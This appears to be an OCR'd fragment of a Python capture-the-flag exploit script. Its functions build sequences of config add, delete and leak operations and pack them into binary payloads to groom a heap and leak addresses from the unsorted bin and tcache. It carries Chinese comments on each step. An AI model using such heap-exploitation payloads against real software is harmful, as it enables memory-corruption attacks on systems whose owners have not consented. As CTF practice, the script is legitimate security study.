 ```python
    name = b'C'*0x30
    content = b''
    configs.append(new_cfg(3, name, content, 0))


    name = b''
    content = b'C'*0x6c0
    configs.append(new_cfg(4, name, content, 0))

    payload = b""

    payload += p32(1)
    payload += p32(0x41)
    payload += p32(len(configs))

    for each in configs:
        payload += each

    return payload

def config_leak_heap_unsorted():
    configs = []

    # update1
    name = b'F'*0x30
    content = b'F'*0x420
    configs.append(new_cfg(1, name, content, 1)) #占据上一个0x420的位置

    name = b'G'*0x30
    content = b'G'*0x30
    configs.append(new_cfg(1, name, content, 0))
    name = b'H'*0x30
    content = b'H'*0x30
    configs.append(new_cfg(1, name, content, 0))
    name = b'I'*0x30
    content = b'I'*0x30
    configs.append(new_cfg(1, name, content, 0))

    name = b'J'*0x30
    content = b''
    configs.append(new_cfg(1, name, content, 0)) #扩容

    name = b'F'*0x30
    content = b''
    configs.append(new_cfg(3, name, content, 0)) #delete

    # split block, leak again
    name = b''
    content = b''
    configs.append(new_cfg(4, name, content, 0))

    # here try to add tcache
    payload = b""
    # send to local handle
    payload += p32(1)
    payload += p32(0x41)
    payload += p32(len(configs))

    for each in configs:
        payload += each

    return payload

```